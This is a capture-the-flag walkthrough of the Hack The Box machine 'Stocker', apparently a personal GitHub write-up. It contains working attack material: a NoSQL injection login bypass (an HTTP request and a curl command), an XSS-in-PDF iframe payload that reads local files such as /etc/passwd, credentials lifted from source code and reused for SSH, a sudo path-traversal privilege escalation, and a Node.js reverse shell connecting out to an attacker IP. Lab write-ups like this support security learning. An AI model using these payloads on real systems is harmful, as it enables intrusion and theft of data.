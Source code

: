# stocker

Nothing exiting from nmap; just the standard 22 and 80.

The website didn't show anything interesting, so I started looking for subdomains and found this:

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                  
=====================================================================

000000019:   302        0 L      4 W        28 Ch       "dev"                                    
```

The dev site by itself was also not interesting, but I did find a log in page:

http://dev.stocker.htb/login

I tried running sqlmap to see if anything is injectible, but doesn't look like it.

Wappalyzer told me it's running express, and I had just watched IppSec's video on Shoppy which also features an Express site with authentication and a nosql injection, so I got that down pretty fast.

Converted the request to `application/json` and quickly found the following payload working:

```
POST /login HTTP/1.1
Host: dev.stocker.htb
Content-Length: 55
Content-Type: application/json
Accept: text/html

{"username": {"$ne": null}, "password": {"$ne": null} }
```

As curl:

```
curl -i -s -k -X $'POST' \
    -H $'Host: dev.stocker.htb' -H $'Content-Length: 55' -H $'Content-Type: application/json' -H $'Accept: text/html' \
    --data-binary $'{\"username\": {\"$ne\": null}, \"password\": {\"$ne\": null} }' \
    $'http://dev.stocker.htb/login'
```

At this point I started struggling. My gut told me that the area to focus on must be something to do with user input since I had nothing else like numbers etc, but I had no idea.

In the end I was hinted towards XSS for PDF. I used this payload in the end:

```
<iframe src=file:///etc/passwd width=1000px height=1000px></iframe>
```

In the `title` field for a basket item when submitting an order:

```
{
  "basket": [
    {
      "_id": "638f116eeb060210cbd83a8d",
      "title": "<iframe src=file:///etc/passwd width=1000px height=1000px></iframe>",
      "description": "It's a red cup.",
      "image": "red-cup.jpg",
      "price": 32,
      "currentStock": 4,
      "__v": 0,
      "amount": 1
    }
  ]
}
```
(More or less copied from: https://exploit-notes.hdks.org/exploit/web/security-risk/xss-with-dynamic-pdf/)

And on this output I could see which users had a shell:

```
root:x:0:0:root:/root:/bin/bash
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
```

And with this payload I could see the current working directory:

```
<img src='x' onerror="document.write(JSON.stringify(window.location))">
<script>document.write('<iframe src=\"' + window.location.href + '\"></iframe>')</script>
```

And in the contents of index.js, the following mongodb credentials could be seen:

```
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```

So naturally I try the password for angoose user and ssh:

```
$ssh angoose@stocker.htb
```

And foothold!

# Privilege escalation

One of the first things I do is always `sudo -l`:

```
$ sudo -l
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

I did not have any write access to /usr/local/scripts/, so instead I went looking for some already-existing .js file that may give me something. There were some files called `repl.js` etc, so I thought that might a good candidate, but in the end nothing worked.

So I googled a bit and while googling, it dawned on me that perhaps the asterisk will allow `.` and `/` as well?

I created a small test file:

```
$ mkdir /tmp/nscp
$ echo "console.log('foo'):" > /tmp/nscp/foo.js
$ sudo /usr/bin/node /usr/local/scripts/../../../tmp/nscp/foo.js
foo
```

It works! Then I went searching for some node.js to read files:

```
const { exec } = require("child_process");

exec("ls -la /root/", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
```

Also works!

At this point, I had a I needed and could simply `cat /root/root.txt`, but it's more fun to have a proper shell:

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.16.19", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

Done! The system can consider itself owned!

# Conclusion

I had a difficult time trying to find out what to do after the authentication bypass and had to rely heavily on hints - I had no idea you could show html and javascript in a PDF!
